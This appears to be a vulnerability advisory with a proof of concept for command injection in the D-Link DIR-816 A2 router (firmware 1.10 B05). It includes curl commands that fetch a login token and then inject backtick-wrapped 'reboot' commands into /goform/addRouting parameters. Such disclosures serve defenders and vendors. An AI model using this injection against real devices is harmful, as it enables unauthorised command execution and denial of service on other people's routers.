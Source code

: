 # D-Link DIR-816 A2 Command Injection

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: GD@hillstone

**Vendor Homepage**: http://www.dlink.com.cn/

##detail description

An issue was discovered on D-Link DIR-816 A2 1.10 B05 devices. An HTTP request parameter is used in command string construction in the handler function of the /goform/addRouting route. This could lead to command injection via shell metacharacters in the gateway parameter.

## POC

first,get the token

`curl -s http://192.168.0.1/dir_login.asp | grep tokenid`

<input type="hidden" name="tokenid"  value="xxxx" >

then,we could send the crafted parameter along with the token to the route:

```
curl -i -X POST http://192.168.0.1/goform/addRouting -d tokenid=1804289383 -d 'dest=`reboot`' -d 'hostnet=`reboot`' -d 'netmask=`reboot`' -d 'gateway=`reboot`' -d 'interface=`reboot`' -d 'custom_interface=`reboot`'
```

final,the route will reboot.

